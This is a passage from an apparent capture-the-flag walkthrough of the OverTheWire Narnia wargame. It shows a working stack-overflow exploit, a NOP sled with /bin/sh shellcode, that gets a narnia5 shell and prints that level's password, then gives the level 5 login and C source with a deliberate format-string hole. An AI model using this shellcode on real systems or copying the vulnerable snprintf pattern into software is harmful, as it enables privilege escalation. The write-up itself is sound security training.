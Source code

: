 ```nasm
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
$
```

Looks like it worked. Let's do the same outside GDB.

```bash
narnia4@narnia:/narnia$ ./narnia4 $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xb4\xd7\xff\xff"')
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
faimahchiy
```

Success !

## Narnia 05 Solution

**SSH :** *ssh narnia5@narnia.labs.overthewire.org -p 2226*<br/>
**Pass :** *faimahchiy*

First, let's try to execute the program...

```bash
$ ssh narnia5@narnia.labs.overthewire.org -p 2226

narnia5@narnia:~$ cd /narnia/
narnia5@narnia:/narnia$ ./narnia5
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [] (0)
i = 1 (0xffffd6d0)
```

So, we need to modify the **i** variable with the value **500**. We also know the address of **i** which is equal to `0xffffd6d0`.

### Source Code

Here is the source code.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
	int i = 1;
	char buffer[64];

	snprintf(buffer, sizeof buffer, argv[1]);
	buffer[sizeof (buffer) - 1] = 0;
	printf("Change i's value from 1 -> 500. ");

	if(i==500){
		printf("GOOD\n");
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
	}

	printf("No way...let me give you a hint!\n");
	printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
	printf ("i = %d (%p)\n", i, &i);
	return 0;
}
```